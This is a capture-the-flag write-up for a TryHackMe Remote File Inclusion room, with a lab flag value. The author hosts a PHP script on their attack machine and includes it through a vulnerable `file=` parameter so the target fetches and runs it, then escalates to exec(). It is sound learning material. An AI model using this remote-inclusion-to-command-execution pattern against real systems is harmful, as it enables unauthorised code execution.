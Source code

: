 ```yaml
---
title: Remote Code Execution CTF
weight: 4
---
```


[Link to the exercise](https://tryhackme.com/room/fileinc)

## Goal

Contrary to [lfi-ctf-1](knowledge/off-sec/write-ups/thm/lfi-ctf-1.md) and later ones, this CTF is about finding a flag hidden as a `hostname` with [Remote File Inclusion](knowledge/off-sec/pentesting/rfi.md).

## Steps

### Recce

I've opened the web app and tried to `include` a bunch of files that might exist already in the filesystem ([lfi](knowledge/off-sec/pentesting/lfi.md)) - to no avail. Since the challenge is about [rfi](knowledge/off-sec/pentesting/rfi.md), I've written a simple PHP script that'd echo a string to see if RFI is possible _out-of-the-box_:

```php
<?php
echo "hostname";
?>
```

Since I didn't know where to host that file, I've started `SimpleHTTPServer` with

```sh
python -m http.server ~/Desktop
```

(as I saved my script on the desktop).

Then I tried to `include` it as a query param:

```
http://10.10.55.248/playground.php?file=http://10.10.224.87:8000/hostname.php
```

(where `.55.248` is the attacked machine and `.224.87` is my AttackBox instance).

![Screenshot 2023-01-04 at 21.18.30](/public/Screenshot%202023-01-04%20at%2021.18.30.png)

Good. The string was included.

### Exploitation

Since I've found the vulnerability, I've modified my script a bit to use PHPs' [exec fn](https://www.php.net/manual/en/function.exec.php):

```php
<?php
echo exec("hostname");
?>
```

and refreshed the page.

## Flag

`lfi-vm-thm-f8c5b1a78692`
